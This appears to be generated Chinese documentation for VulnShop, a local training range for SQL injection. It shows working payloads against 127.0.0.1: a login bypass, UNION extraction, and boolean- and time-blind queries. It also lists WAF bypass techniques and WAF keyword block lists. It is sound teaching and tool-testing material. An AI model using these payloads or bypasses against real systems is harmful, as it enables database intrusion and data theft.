


# VulnShop靶场

<cite>
**本文档引用文件**   
- [README.md](file://README.md)
- [config.py](file://src/vulnTestServer/config.py)
- [server.py](file://src/vulnTestServer/server.py)
- [waf.py](file://src/vulnTestServer/waf.py)
- [test_sqli.py](file://src/vulnTestServer/test_sqli.py)
- [database.py](file://src/vulnTestServer/database.py)
- [USAGE_GUIDE.md](file://doc/USAGE_GUIDE.md)
</cite>

## 目录
1. [简介](#简介)
2. [安装与配置](#安装与配置)
3. [漏洞类型与难度级别](#漏洞类型与难度级别)
4. [WAF实现与绕过挑战](#waf实现与绕过挑战)
5. [测试用例与利用示例](#测试用例与利用示例)
6. [教育价值与安全研究应用](#教育价值与安全研究应用)
7. [架构图与漏洞分布](#架构图与漏洞分布)

## 简介

VulnShop是一个专为安全测试和教育目的设计的SQL注入测试靶场，集成在SQLMap Web UI平台中。该靶场模拟了一个完整的电商平台，包含多种真实世界中的SQL注入漏洞，旨在为安全研究人员、渗透测试人员和学生提供一个安全的学习和实践环境。

靶场提供了完整的购物流程，包括商品浏览、购物车管理和订单结算等功能，同时内置了8种不同类型的SQL注入漏洞。用户可以通过测试账户（admin/admin123 或 test/test）登录系统，开始安全测试。靶场仅绑定本地地址（127.0.0.1），确保不会暴露到公网，符合安全测试的最佳实践。

VulnShop的设计目标是提供一个真实、安全且易于使用的测试环境，帮助用户理解SQL注入的原理、检测方法和防御策略。通过这个靶场，用户可以学习如何识别不同类型的注入漏洞，掌握SQLMap等自动化工具的使用，并了解Web应用防火墙（WAF）的工作原理和绕过技术。

**Section sources**
- [README.md](file://README.md#L76-L94)
- [USAGE_GUIDE.md](file://doc/USAGE_GUIDE.md#L377-L383)

## 安装与配置

### 环境要求

在部署VulnShop靶场之前，请确保系统满足以下环境要求：

- **Python 3.13+**: 作为靶场服务器的运行环境
- **Node.js 20+**: 用于前端开发服务器
- **pnpm 9+**: 前端包管理器
- **浏览器**: 推荐使用Chrome浏览器进行测试

### 靶场启动

启动VulnShop靶场的步骤如下：

```bash
# 进入靶场目录
cd src/vulnTestServer

# 安装依赖（如未安装）
pip install flask

# 启动服务
python server.py
```

服务启动后，靶场将绑定到 `http://127.0.0.1:9527` 地址。用户可以通过浏览器访问该地址来使用靶场。启动过程中，系统会显示详细的服务器信息，包括版本号、难度级别和可用的API端点。

### 访问方法

VulnShop靶场提供以下访问方式：

| 服务 | 地址 |
|------|------|
| VulnShop 靶场 | http://127.0.0.1:9527 |

用户可以使用以下测试账户登录系统：
- 管理员账户：admin / admin123
- 普通用户账户：test / test

### 配置管理

靶场的配置文件位于 `src/vulnTestServer/config.py`，主要配置项包括：

- **服务器配置**: 绑定地址（默认127.0.0.1）和端口（9527）
- **难度配置**: 支持easy、medium、hard三种难度级别
- **注入类型配置**: 定义了各个API接口对应的SQL注入类型
- **WAF规则**: 针对不同难度级别定义了相应的过滤规则

用户可以通过API动态调整难度级别，也可以通过重置数据库功能恢复初始数据状态。

**Section sources**
- [README.md](file://README.md#L154-L174)
- [USAGE_GUIDE.md](file://doc/USAGE_GUIDE.md#L79-L93)
- [config.py](file://src/vulnTestServer/config.py#L11-L58)

## 漏洞类型与难度级别

### SQL注入漏洞类型

VulnShop靶场包含了8种常见的SQL注入漏洞类型，覆盖了从基础到高级的各种注入技术：

| 漏洞类型 | 接口 | 说明 |
|---------|------|------|
| 基于错误的注入 | POST /api/user/login | 通过错误信息泄露数据库内容 |
| 联合查询注入 | GET /api/user/profile | 使用UNION操作符合并查询结果 |
| 布尔盲注 | GET /api/products/search | 基于布尔条件的盲注技术 |
| 时间盲注 | GET /api/products/detail | 基于时间延迟的盲注技术 |
| 堆叠查询注入 | GET /api/orders/query | 执行多条SQL语句 |
| 二次注入 | POST /api/user/register | 恶意输入存储后在后续查询中触发 |

### 难度级别

靶场提供了三种难度级别，每种级别对应不同的防护强度：

| 级别 | WAF防护 | 绕过方法 |
|------|----------|----------|
| Easy | 无防护 | 直接注入，无需绕过 |
| Medium | 简单过滤 | 大小写混合、URL编码等 |
| Hard | 严格过滤 | 高级绕过技术，如双重编码 |

**easy**级别适合初学者学习SQL注入的基本原理，所有注入类型都可以直接利用。**medium**级别引入了简单的关键字过滤，需要使用大小写变换、URL编码等基本绕过技术。**hard**级别则模拟了严格的WAF防护，需要使用更高级的绕过技术才能成功利用漏洞。

### 漏洞分布

靶场的漏洞分布在不同的业务功能模块中：

- **用户认证模块**: 包含基于错误的注入和二次注入
- **用户资料模块**: 包含联合查询注入
- **商品搜索模块**: 包含布尔盲注
- **商品详情模块**: 包含时间盲注
- **订单查询模块**: 包含堆叠查询注入

这种设计模拟了真实应用中不同功能模块可能存在的安全问题，帮助用户理解SQL注入在实际应用中的多样性和复杂性。

**Section sources**
- [README.md](file://README.md#L77-L87)
- [config.py](file://src/vulnTestServer/config.py#L19-L34)
- [USAGE_GUIDE.md](file://doc/USAGE_GUIDE.md#L394-L439)

## WAF实现与绕过挑战

### WAF实现方式

VulnShop靶场的WAF（Web应用防火墙）模块位于 `src/vulnTestServer/waf.py`，通过`WAFFilter`类实现。WAF的工作原理是检查用户输入中是否包含恶意内容，并根据配置的规则进行拦截。

WAF的核心功能包括：

- **关键字检测**: 检查输入中是否包含SQL关键字，如`union`、`select`、`insert`等
- **长度限制**: 在hard模式下限制输入长度
- **编码检测**: 检测URL编码、十六进制编码等绕过技术
- **注释检测**: 检测SQL注释符号`/* */`
- **模式匹配**: 检测常见的SQL注入模式

```python
class WAFFilter:
    """模拟WAF过滤器"""
    
    def __init__(self, difficulty=None):
        self.difficulty = difficulty or DIFFICULTY
        self.rules = WAF_RULES.get(self.difficulty, {})
    
    def check(self, value):
        """
        检查输入是否包含恶意内容
        
        Returns:
            tuple: (is_blocked, reason)
        """
        # 实现细节...
```

### 绕过挑战

不同难度级别下的WAF绕过挑战各不相同：

**medium级别**的绕过方法包括：
- **大小写混合**: 将关键字的部分字母转换为大写，如`UnIoN SeLeCt`
- **URL编码**: 对关键字进行URL编码，如`%55nion %53elect`
- **空格替换**: 使用其他空白字符替代空格，如制表符或换行符

**hard级别**的防护更加严格，需要使用更高级的绕过技术：
- **双重编码**: 对已经编码的内容再次编码
- **注释混淆**: 在关键字中插入注释，如`uni/**/on sel/**/ect`
- **函数替换**: 使用等效函数替代被过滤的关键字
- **特殊字符**: 利用Unicode字符或特殊符号绕过检测

### WAF规则配置

WAF的规则在`config.py`中定义，针对不同难度级别有不同的配置：

```python
WAF_RULES = {
    "medium": {
        "keywords": ["union", "select", "insert", "update", "delete", "drop", "--", "#"],
        "bypass_allowed": True,  # 允许大小写、编码等绕过
    },
    "hard": {
        "keywords": ["union", "select", "insert", "update", "delete", "drop", 
                     "--", "#", "/*", "*/", "or", "and", "xor", "sleep", "benchmark",
                     "waitfor", "delay", "0x", "char(", "concat(", "group_concat("],
        "bypass_allowed": False,  # 不允许简单绕过
        "max_length": 100,  # 参数最大长度限制
    }
}
```

这些规则模拟了真实世界中WAF的行为，帮助用户理解现代Web应用防火墙的工作原理和局限性。

**Section sources**
- [waf.py](file://src/vulnTestServer/waf.py#L14-L121)
- [config.py](file://src/vulnTestServer/config.py#L36-L49)

## 测试用例与利用示例

### 基于错误的注入测试

**接口**: POST /api/user/login

**测试步骤**:
1. 正常登录测试
2. SQL注入绕过测试
3. 错误信息触发测试

**利用示例**:
```bash
# 使用 admin'-- 绕过密码验证
curl -X POST "http://127.0.0.1:9527/api/user/login" \
     -H "Content-Type: application/json" \
     -d '{"username": "admin''--", "password": "wrong_password"}'
```

**预期结果**: 成功登录admin账户，无需正确密码。

### 联合查询注入测试

**接口**: GET /api/user/profile

**利用示例**:
```bash
# 使用UNION查询提取敏感信息
curl "http://127.0.0.1:9527/api/user/profile?id=1 UNION SELECT 1,flag,description,4,5,6 FROM secrets--"
```

**预期结果**: 返回用户信息的同时，也返回了`secrets`表中的敏感数据。

### 布尔盲注测试

**接口**: GET /api/products/search

**测试方法**:
```bash
# 布尔真条件
curl "http://127.0.0.1:9527/api/products/search?keyword=iPhone%''%20AND%201=1%20AND%20%''=''"

# 布尔假条件  
curl "http://127.0.0.1:9527/api/products/search?keyword=iPhone%''%20AND%201=2%20AND%20%''=''"
```

通过比较两种条件下的响应差异，可以判断SQL条件的真假，进而逐位提取数据库信息。

### 时间盲注测试

**接口**: GET /api/products/detail

**利用示例**:
```bash
# 使用CASE WHEN构造时间延迟
curl "http://127.0.0.1:9527/api/products/detail?id=1 AND 1=(SELECT CASE WHEN (1=1) THEN randomblob(100000000) ELSE 1 END)"
```

通过测量响应时间的差异来判断SQL条件的真假，实现盲注攻击。

### 自动化测试脚本

靶场提供了`test_sqli.py`自动化测试脚本，可以一键验证所有漏洞点：

```python
def main():
    print("VulnShop SQL注入漏洞验证测试")
    
    results = {}
    results['Error-based'] = test_error_based_sqli()
    results['Union-based'] = test_union_based_sqli()
    results['Boolean-blind'] = test_boolean_blind_sqli()
    results['Time-based'] = test_time_based_sqli()
    results['Stacked-queries'] = test_stacked_queries_sqli()
    results['Second-order'] = test_second_order_sqli()
    
    # 输出测试结果汇总
    for vuln_type, success in results.items():
        status = "✅ 存在漏洞" if success else "❌ 未检测到"
        print(f"    {vuln_type:20s}: {status}")
```

该脚本可以帮助用户快速验证靶场的功能完整性。

**Section sources**
- [test_sqli.py](file://src/vulnTestServer/test_sqli.py#L1-L270)
- [server.py](file://src/vulnTestServer/server.py#L240-L561)

## 教育价值与安全研究应用

### 教学价值

VulnShop靶场具有重要的教育价值，主要体现在以下几个方面：

**安全意识培养**: 通过实际操作，用户能够直观地理解SQL注入的危害性。当看到自己的输入如何影响数据库查询时，开发者会更加重视输入验证和参数化查询的重要性。

**技能提升**: 靶场涵盖了从基础到高级的各种SQL注入技术，帮助用户系统地学习和掌握这些技能。用户可以从简单的基于错误的注入开始，逐步学习更复杂的盲注技术。

**防御理解**: 通过WAF模块，用户不仅学习如何攻击，还能理解防御机制的工作原理。这有助于培养全面的安全思维，理解攻防双方的博弈。

### 安全研究应用

在安全研究领域，VulnShop靶场有多种应用场景：

**工具测试**: 安全研究人员可以使用该靶场测试SQL注入检测工具（如SQLMap）的有效性。通过观察工具在不同漏洞类型和难度级别下的表现，可以评估工具的检测能力和绕过WAF的能力。

**CTF训练**: 靶场的结构和功能非常适合用于CTF（Capture The Flag）比赛的训练。组织者可以基于此靶场设计各种挑战，参赛者需要运用不同的技术来获取Flag。

**安全培训**: 企业可以使用该靶场对开发团队进行安全培训，让开发者亲身体验自己代码中可能存在的漏洞，从而提高代码安全性。

### 最佳实践

使用VulnShop靶场时应遵循以下最佳实践：

- **仅用于授权测试**: 靶场仅供学习和授权的安全测试使用，禁止用于非法用途
- **本地运行**: 靶场仅绑定本地地址，确保不会暴露到公网
- **定期重置**: 使用`/api/database/reset`接口定期重置数据库，保持测试环境的清洁
- **难度递进**: 建议从easy级别开始，逐步挑战更高难度，系统性地提升技能

**Section sources**
- [README.md](file://README.md#L246-L254)
- [USAGE_GUIDE.md](file://doc/USAGE_GUIDE.md#L574-L575)

## 架构图与漏洞分布



**Diagram sources**
- [server.py](file://src/vulnTestServer/server.py#L37-L685)
- [waf.py](file://src/vulnTestServer/waf.py#L14-L121)
- [database.py](file://src/vulnTestServer/database.py#L15-L193)



**Diagram sources**
- [config.py](file://src/vulnTestServer/config.py#L27-L34)
- [server.py](file://src/vulnTestServer/server.py#L240-L561)